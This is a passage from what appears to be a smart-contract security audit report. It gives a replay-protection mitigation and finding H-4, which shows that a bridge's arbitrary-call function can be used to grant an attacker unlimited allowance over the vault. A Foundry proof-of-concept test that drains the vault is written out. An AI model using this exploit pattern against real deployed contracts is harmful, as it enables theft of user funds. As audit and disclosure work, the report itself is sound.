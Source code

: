**Recommended Mitigation:** To prevent signature replay attacks, consider redesigning the withdrawal mechanism so that it includes replay protection.Moreover, we could:

1. keep track of a nonce,

2. make the current nonce available to signers,

3. validate the signature using the current nonce,

4. once a nonce has been used, save this to storage such that the same nonce can't be used again.

---

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds.

**Description:** The `L1BossBridge` contract includes the `sendToL1` function that, if called with a sugnature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is approveTo function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available docs, the only validation made by off-chain services is that "<u>*the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge*</u>". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:** Include the following test in the `L1BossBridge.t.sol` file:

```javascript

function testCanCallVaultApproveFromBridgeAndDrainVault() public {
        address attacker = makeAddr("attacker");

        uint256 vaultInitialBalance = 1000e18;
        deal(address(token), address(vault), vaultInitialBalance);

        // An attacker deposits tokens to L2. We do this under the assumption that the
        // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(attacker), address(0), 0);
        tokenBridge.depositTokensToL2(attacker, address(0), 0);

        // Under the assumption that the bridge operator doesn't validate bytes being signed
        bytes memory message = abi.encode(
            address(vault), // target
            0, // value
            abi.encodeCall(
                L1Vault.approveTo,
                (address(attacker), type(uint256).max)));  // data

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
        token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
    }

```
